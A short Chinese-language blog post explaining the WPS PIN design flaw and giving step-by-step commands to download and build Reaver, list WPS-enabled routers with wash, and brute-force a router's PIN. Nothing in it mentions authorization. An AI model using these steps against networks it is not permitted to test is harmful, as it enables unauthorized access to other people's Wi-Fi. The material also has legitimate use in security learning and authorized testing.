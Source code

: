 ```yaml
---
layout: post
category: wifi破解
title: PIN码破解
tagline: by 赵宏阳
tags: [wifi破解]
---
```

# PIN码破解 #

<!--more-->

为了方便用户连接wifi，Wi-Fi联盟出台了一个解决方案Wi-Fi Protectd Setup，简称WPS，但是这个方法有个安全漏洞。本文用Linux的Reaver软件使用穷举法破解PIN码。PIN码共8位十进制数，分为前四位，后三位和最后一位，其中最后一位为校验位，可以根据前面几位计算出来。所以穷举的次数为：10^4+10^3 = 11000。PIN码破解需要在信号强度很强的地方进行，强度负号后面数字大表示信号弱,数字小表示信号强。
1. 下载源码`wget http://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz`
1. 安装依赖库`apt-get install libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev`
1. 编译安装

    cd  src

    ./configure

    make

    make install

1. wash -i mon0 -C      //查看支持PIN码破解的无线路由 
1. reaver -i mon0 -b 路由MAC地址 -S -a -p 路由PIN码 -vv //开始PIN破解